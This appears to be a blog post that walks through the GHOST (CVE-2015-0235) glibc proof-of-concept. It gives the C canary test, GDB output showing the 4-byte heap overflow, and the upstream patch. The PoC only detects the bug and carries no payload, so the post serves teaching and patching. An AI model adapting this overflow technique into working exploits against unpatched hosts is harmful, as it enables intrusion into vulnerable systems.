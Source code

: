 ```yaml
---
layout: post
title: CVE-2015-0235 GHOST PoC Explained
category: Exploitation, PoC
tags: Exploitation GHOST gethostbyname CVE-2015-0235
---
```


In this post we will go over the GHOST PoC under a debugger. This will visually show how the buffer overflow condition is met.

# PoC C Code
{% highlight C linenos %}
#include <netdb.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <errno.h>

#define CANARY "in_the_coal_mine"

struct {
	char buffer[1024];
	char canary[sizeof(CANARY)];
} temp = { "buffer", CANARY };

int main(void) {
	struct hostent resbuf;
        struct hostent *result;
	int herrno;
	int retval;

	/*** strlen (name) = size_needed - sizeof (*host_addr) - sizeof (*h_addr_ptrs) - 1; ***/
	size_t len = sizeof(temp.buffer) - 16*sizeof(unsigned char) - 2*sizeof(char *) - 1;
	char name[sizeof(temp.buffer)];
	memset(name, '0', len);
	name[len] = '\0';

	retval = gethostbyname_r(name, &resbuf, temp.buffer, sizeof(temp.buffer), &result, &herrno);

	if (strcmp(temp.canary, CANARY) != 0) {
		puts("vulnerable");
		exit(EXIT_SUCCESS);
	}
	if (retval == ERANGE) {
		puts("not vulnerable");
		exit(EXIT_SUCCESS);
	}
	puts("should not happen");
	exit(EXIT_FAILURE);
}
{% endhighlight %}
Let me explain some of the above code.
First we define a CANARY, "in_the_coal_mine". This is our overwrite target.
Next we define a struct, which consists of two chunks. These chunks represent a buffer that will be overflowed by the glibc gethostbyname_r function, and the data that comes after it (the CANARY).
The first chunk is named "buffer" and its size is 1024 bytes, which is the size that will be passed to gethostbyname_r via the "buflen" argument.
Following the "buffer" chunk is the CANARY chunk. By overflowing the "buffer" chunk into the CANARY chunk, we can confirm the PoC exploit works.
Now that we have defined our struct representing the buffer for gethostname_r, the name char array is being initialized with 999 bytes of ASCII ‘0’ / HEX 0x30.

>**name**  
>*The name of the Internet host whose entry you want to find.*  
>**result**  
>*A pointer to a struct hostent where the function can store the host entry.*  
>**buffer**  
>*A pointer to a buffer that the function can use during the operation to store host database entries; buffer should be large enough to hold all of the data associated with the host entry. A 2K buffer is usually more than enough; a 256-byte buffer is safe in most cases.*  
>**buflen**  
>*The length of the area pointed to by buffer.*  
>**h_errnop**  
>*A pointer to a location where the function can store an herrno value if an error occurs.*  

Now, let's see the binary under GDB debugger.

{% highlight bash linenos %}
$ gdb -q ./GHOST 
Reading symbols from /home/student/GHOST...done.
(gdb) break main
Breakpoint 1 at 0x80484a2: file ghost.c, line 14.
(gdb) set disassembly-flavor intel
(gdb) run
Starting program: /home/student/GHOST 

Breakpoint 1, main () at ghost.c:14
14int main(void) {
(gdb) disas
Dump of assembler code for function main:
   0x08048494 <+0>:push   ebp
   0x08048495 <+1>:mov    ebp,esp
   0x08048497 <+3>:push   edi
   0x08048498 <+4>:push   esi
   0x08048499 <+5>:and    esp,0xfffffff0
   0x0804849c <+8>:sub    esp,0x450
=> 0x080484a2 <+14>:mov    eax,gs:0x14
   0x080484a8 <+20>:mov    DWORD PTR [esp+0x44c],eax
   0x080484af <+27>:xor    eax,eax
   0x080484b1 <+29>:mov    DWORD PTR [esp+0x44],0x3e7
   0x080484b9 <+37>:mov    eax,DWORD PTR [esp+0x44]
   0x080484bd <+41>:mov    DWORD PTR [esp+0x8],eax
   0x080484c1 <+45>:mov    DWORD PTR [esp+0x4],0x30
   0x080484c9 <+53>:lea    eax,[esp+0x4c]
   0x080484cd <+57>:mov    DWORD PTR [esp],eax
   0x080484d0 <+60>:call   0x80483c0 <memset@plt>
   0x080484d5 <+65>:lea    eax,[esp+0x4c]
   0x080484d9 <+69>:add    eax,DWORD PTR [esp+0x44]
   0x080484dd <+73>:mov    BYTE PTR [eax],0x0
   0x080484e0 <+76>:lea    eax,[esp+0x4c]
   0x080484e4 <+80>:lea    edx,[esp+0x40]
   0x080484e8 <+84>:mov    DWORD PTR [esp+0x14],edx
   0x080484ec <+88>:lea    edx,[esp+0x3c]
   0x080484f0 <+92>:mov    DWORD PTR [esp+0x10],edx
   0x080484f4 <+96>:mov    DWORD PTR [esp+0xc],0x400
   0x080484fc <+104>:mov    DWORD PTR [esp+0x8],0x804a040
   0x08048504 <+112>:lea    edx,[esp+0x28]
   0x08048508 <+116>:mov    DWORD PTR [esp+0x4],edx
   0x0804850c <+120>:mov    DWORD PTR [esp],eax
   0x0804850f <+123>:call   0x80483d0 <gethostbyname_r@plt>
   0x08048514 <+128>:mov    DWORD PTR [esp+0x48],eax
   0x08048518 <+132>:mov    edx,0x804a440
   0x0804851d <+137>:mov    eax,0x8048660
   0x08048522 <+142>:mov    ecx,0x11
   0x08048527 <+147>:mov    esi,edx
   0x08048529 <+149>:mov    edi,eax
   0x0804852b <+151>:repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]
---Type <return> to continue, or q <return> to quit---q
Quit
(gdb)
{% endhighlight %}
Lines 24-28, are where memset initializes name char array with 999 bytes of '0'. Line 31, name char array is being null terminated. Lines 36-41, is where the arguments for gethostbyname_r are being pushed to the stack, right to left. After the gethostbyname_r function, on lines 44-49 is where strcmp confirms if the CANARY has been modified or not.  
Let's set a breakpoint before the gethostbyname function and inspect the temp stuct.
{% highlight bash linenos %}
(gdb) break *main+123
Breakpoint 3 at 0x804850f: file ghost.c, line 25.
(gdb) c
Continuing.

Breakpoint 3, 0x0804850f in main () at ghost.c:25
25	  retval = gethostbyname_r(name, &resbuf, temp.buffer, sizeof(temp.buffer), &result, &herrno);
(gdb) disas
...
   0x080484f0 <+92>:	mov    DWORD PTR [esp+0x10],edx
   0x080484f4 <+96>:	mov    DWORD PTR [esp+0xc],0x400
   0x080484fc <+104>:	mov    DWORD PTR [esp+0x8],0x804a040
   0x08048504 <+112>:	lea    edx,[esp+0x28]
   0x08048508 <+116>:	mov    DWORD PTR [esp+0x4],edx
   0x0804850c <+120>:	mov    DWORD PTR [esp],eax
=> 0x0804850f <+123>:	call   0x80483d0 <gethostbyname_r@plt>
...
(gdb) print temp
$4 = {buffer = "buffer", '\000' <repeats 1017 times>, canary = "in_the_coal_mine"}
(gdb) 

(gdb) x/1024s 0x804a040
0x804a040 <temp>:	 "buffer"
0x804a047 <temp+7>:	 ""
0x804a048 <temp+8>:	 ""
...
...
...
0x804a43d <temp+1021>:	 ""
0x804a43e <temp+1022>:	 ""
0x804a43f <temp+1023>:	 ""
0x804a440 <temp+1024>:	 "in_the_coal_mine"
{% endhighlight %}

As you can see, the content of temp is of two buffers named "buffer" and "canary". Content of Buffer is the name of the buffer "buffer" which is 6 bytes + 1017 bytes of '0' characters + null terminating byte = 1024 bytes. CANARY starts at memory location 0x804a440 or 1024 bytes within the temp struct, and it's content is as initialized "in_the_coal_mine".  
Now let's move 1 instruction down, past the gethostbyname_r function and inspect the temp struct again.
{% highlight bash linenos %}
(gdb) nexti
0x08048514	25	  retval = gethostbyname_r(name, &resbuf, temp.buffer, sizeof(temp.buffer), &result, &herrno);
(gdb) disas
Dump of assembler code for function main:
...
   0x080484f0 <+92>:	mov    DWORD PTR [esp+0x10],edx
   0x080484f4 <+96>:	mov    DWORD PTR [esp+0xc],0x400
   0x080484fc <+104>:	mov    DWORD PTR [esp+0x8],0x804a040
   0x08048504 <+112>:	lea    edx,[esp+0x28]
   0x08048508 <+116>:	mov    DWORD PTR [esp+0x4],edx
   0x0804850c <+120>:	mov    DWORD PTR [esp],eax
   0x0804850f <+123>:	call   0x80483d0 <gethostbyname_r@plt>
=> 0x08048514 <+128>:	mov    DWORD PTR [esp+0x48],eax
...
(gdb) print temp
$5 = {buffer = '\000' <repeats 16 times>, "@\240\004\b\000\000\000\000\000\000\000\000", '0' <repeats 996 times>, canary = "000\000he_coal_mine"}
(gdb) 
(gdb) x/1024s 0x804a040
0x804a040 <temp>:	 ""
0x804a041 <temp+1>:	 ""
...
...
0x804a05c <temp+28>:	 '0' <repeats 200 times>...
0x804a124 <temp+228>:	 '0' <repeats 200 times>...
0x804a1ec <temp+428>:	 '0' <repeats 200 times>...
0x804a2b4 <temp+628>:	 '0' <repeats 200 times>...
0x804a37c <temp+828>:	 '0' <repeats 199 times>
0x804a444 <temp+1028>:	 "he_coal_mine"
{% endhighlight %}
What this shows us is that now, the temp.buffer is 1028 bytes. 4 bytes from temp.buffer chunk has overflowed into the temp.canary chunk. If we inspect the 0x804a440 address, which use to be the start of the CANARY chunk, we should see the overflowed bytes followed by terminating null char.

{% highlight bash linenos %}
(gdb) x/s 0x804a440
0x804a440 <temp+1024>:	 "000"
(gdb) 
{% endhighlight %}

## The patch
As noted by Qualys in their report, the vulnerable code in the function is in nss/digits_dots.c. The patch mainly consists of adding 4 bytes to the size_needed object.

{% highlight bash linenos %}
vi nss/digits_dots.c

From this:
  105:  size_needed = (sizeof (*host_addr)
		+ sizeof (*h_addr_ptrs) + strlen (name) + 1);

  277:  size_needed = (sizeof (*host_addr)
		+ sizeof (*h_addr_ptrs) + strlen (name) + 1);

To this:
  105:  size_needed = (sizeof (*host_addr)
		+ sizeof (*h_addr_ptrs) + strlen (name)
		+ sizeof (*h_alias_ptr) + 1);

  277:  size_needed = (sizeof (*host_addr)
		+ sizeof (*h_addr_ptrs) + strlen (name)
		+ sizeof (*h_alias_ptr) + 1);
{% endhighlight %}

This adds the 4 missed bytes that cause the overflow from the first chunk to the next chunk. Now if we add this to the calculation of the "size_t len" from the above PoC code, instead of 999 bytes the name char array buffer will be 995 and the overflow will not work.

### Reference
* [Qualys report](https://www.qualys.com/research/security-advisories/GHOST-CVE-2015-0235.txt?_ga=1.220525848.141431497.1428700623)
* [Stackoverflow](http://stackoverflow.com/questions/28258135/manually-patching-for-ghost-vulnerability-on-legacy-server)

